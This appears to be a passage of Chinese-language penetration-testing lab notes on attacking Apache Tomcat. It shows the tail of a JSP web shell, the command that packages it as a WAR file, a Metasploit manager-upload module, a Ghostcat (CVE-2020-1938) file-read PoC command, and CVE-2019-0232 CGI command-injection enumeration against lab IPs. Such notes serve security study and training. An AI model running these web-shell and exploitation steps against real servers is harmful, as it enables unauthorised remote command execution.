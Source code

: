 ```java
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>
```
```shell-session
zip -r backup.war cmd.jsp 
```
- 使用msfconsole
```
multi/http/tomcat_mgr_upload
```
### CVE-2020-1938 : Ghostcat
>All Tomcat versions before 9.0.31, 8.5.51, and 7.0.100 were found vulnerable
- POC : [連結](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi)
```shell-session
python2.7 tomcat-ajp.lfi.py app-dev.inlanefreight.local -p 8009 -f WEB-INF/web.xml 
```
### Apache Tomcat RCE
>[!warning ] 小節重點
>该漏洞是由于Tomcat CGI将命令行参数传递给Windows程序的方式存在错误，使得CGIServlet被命令注入影响。
该漏洞只影响Windows平台，需要启用了CGIServlet和enableCmdLineArguments参数。但是CGIServlet和enableCmdLineArguments参数默认情况下都不启用。

>[!warning ] 小節重點
>簡單來說就是Tomcat有一個鬼功能就是利用各種語言的腳本控制系統指令，但是對於系統指令的參數沒控制好， 所以可以丟奇怪的東西到系統執行。
>CVE-2019-0232影響的範圍是`9.0.0.M1` to `9.0.17`, `8.5.0` to `8.5.39`, and `7.0.0` to `7.0.93`
- 需要Tomcat的設定中enableCmdLineArguments要設定為true
```xml
<servlet>
    <servlet-name>cgi</servlet-name>
    <servlet-class>org.apache.catalina.servlets.CGIServlet</servlet-class>
    <init-param>
      <param-name>cgiPathPrefix</param-name>
      <param-value>WEB-INF/cgi-bin</param-value>
    </init-param>
    <init-param>
      <param-name>enableCmdLineArguments</param-name>
      <param-value>true</param-value>
    </init-param>
    <init-param>
      <param-name>executable</param-name>
      <param-value></param-value>
    </init-param>
    <load-on-startup>5</load-on-startup>
</servlet>
```
- 腳本列舉
```shell-session
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.cmd
```
```shell-session
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat
```
- 參數列舉 : 手動慢慢猜
```http
http://10.129.204.227:8080/cgi/welcome.bat?&set
```